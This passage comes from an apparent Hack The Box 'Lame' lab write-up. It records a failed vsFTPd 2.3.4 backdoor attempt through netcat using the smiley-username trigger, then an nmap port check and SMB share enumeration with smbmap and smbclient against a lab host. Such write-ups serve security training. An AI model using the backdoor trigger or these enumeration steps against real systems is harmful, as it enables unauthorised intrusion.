 The initial connection worked, but the shell didn't pop. We can also try with netcat:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER user:)
331 Please specify the password.
PASS pass
500 OOPS: priv_sock_get_result
```

No luck. Using `nmap` we can see the port isn't open:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ nmap -Pn -p 6200 10.10.10.3
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 21:35 BST
Nmap scan report for 10.10.10.3
Host is up.

PORT     STATE    SERVICE
6200/tcp filtered lm-x

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
```

This suggests we probably can't use this exploit.

# SMB

## Enumerating SMB Shares

Time to look at SMB instead. We can first map the shares:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

The only one we can connect to is `tmp`. Trying gives us the following error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient -N //10.10.10.3/tmp
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```
